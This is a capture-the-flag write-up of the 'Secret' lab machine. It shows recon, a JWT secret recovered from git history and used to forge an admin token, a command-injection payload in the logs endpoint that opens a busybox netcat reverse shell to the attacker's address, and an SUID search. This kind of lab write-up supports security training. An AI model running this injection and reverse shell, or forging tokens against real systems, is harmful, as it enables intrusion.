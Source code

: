 # Secret

![secret.png](secret.png)

# Recon

Using nmap to scan the services using a version with a script scan.

`nmap -sC -sV 10.10.11.120 -Pn`

![Untitled](Untitled.png)

## Web

### Directory Discovery

Gobuster to find directories for further exploitation.

`gobuster dir -u http://10.10.11.120:3000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![Untitled](Untitled%201.png)

### API

API schema can be found at [http://10.10.11.120:3000/docs](http://10.10.11.120:3000/docs)

Register user

`curl '[http://10.10.11.120:3000/api/user/register](http://10.10.11.120:3000/api/user/register)' -X POST -d '{"[name":"test321","email":"test@test.com](mailto:name%22:%22test%22,%22email%22:%22test@test.com)","password":"test321"}' -H "Content-Type: application/json" -x [http://localhost:8080/](http://localhost:8080/)`

![Untitled](Untitled%202.png)

Login with a user we get the JWT token

`curl '[http://10.10.11.120:3000/api/user/login](http://10.10.11.120:3000/api/user/login)' -X POST -d '{"[email":"test1@test.com](mailto:email%22:%22test1@test.com)","password":"test321"}' -H "Content-Type:application/json" -x [http://localhost:8080/](http://localhost:8080/)`

![Untitled](Untitled%203.png)

Using the new header

`curl '[http://10.10.11.120:3000/api/priv](http://10.10.11.120:3000/api/priv)' -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NWU2ZTg2MWMxMTQ2ODA0NWRiM2QzMjAiLCJuYW1lIjoidGVzdDEyMyIsImVtYWlsIjoidGVzdEB0ZXN0LmNvbSIsImlhdCI6MTcwOTYzMTgwMH0.Wk-d3Nm5XomrlCzUrqP9R3Rohx1RFMJnD6k4AcG5gT8"`

![Untitled](Untitled%204.png)

Fuzz the API using `ffuf`

`ffuf -u [http://10.10.11.120:3000/api/FUZZ](http://10.10.11.120:3000/api/FUZZ) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 93 -t 10`

![Untitled](Untitled%205.png)

### Database

![Untitled](Untitled%206.png)

### Code analysis

Possible RCE with this `exec` function inside the file `/routes/private.js`

![Untitled](Untitled%207.png)

There is a directory called `.git` that can contain private information

![Untitled](Untitled%208.png)

Here we can see the commit so we can access

![Untitled](Untitled%209.png)

Accessing that commit using the ID and we found the secret for the JWT token

`git show 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78`

![Untitled](Untitled%2010.png)

`gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`

### JWT token

Using the website we can paste there our JWT token and then put there the secret that we found

[https://jwt.io/](https://jwt.io/)

![Untitled](Untitled%2011.png)

Now modify the token as we can see on the docs the `_id`, `name` and `email` put the same values of the administrator user like this, don’t change the `iat` value

![Untitled](Untitled%2012.png)

To verify if we are admin user we can make a request to `/api/priv`

`curl '[http://10.10.11.120:3000/api/priv](http://10.10.11.120:3000/api/priv)' -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNzA5NTkwNjQ3fQ.3uq7MTeR1JfiKxj0g_cRo3hO7437lQyA1LkmjZriLr4" | jq .`

![Untitled](Untitled%2013.png)

## FootHold

Now that we are admin we can try to exploit the `exec` function found earlier, make a request to `/api/logs?file=` and we get this response

![Untitled](Untitled%2014.png)

By making a `ls` command we can list the contents of the current directory 

![Untitled](Untitled%2015.png)

RCE using `busybox`

Open a `netcat` listener, i used port `5555` you can use other port

`nc -nvlp 5555`

`curl '[http://10.10.11.120:3000/api/logs?file=;busybox nc 10.10.14.51 5555 -e bash](http://10.10.11.120:3000/api/logs?file=;busybox%20nc%2010.10.14.51%205555%20-e%20bash)' -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNzA5NTkwNjQ3fQ.3uq7MTeR1JfiKxj0g_cRo3hO7437lQyA1LkmjZriLr4"`

![Untitled](Untitled%2016.png)

## Privilege escalation

Upgrade shell

`python3 -c “import pty;pty.spawn(’/bin/bash’)”`

### SUID files

Find SUID files

`find / -type f -perm -4000 2>/dev/null`

![Untitled](Untitled%2017.png)

Run the count 

![Untitled](Untitled%2018.png)

Root flag

![Untitled](Untitled%2019.png)
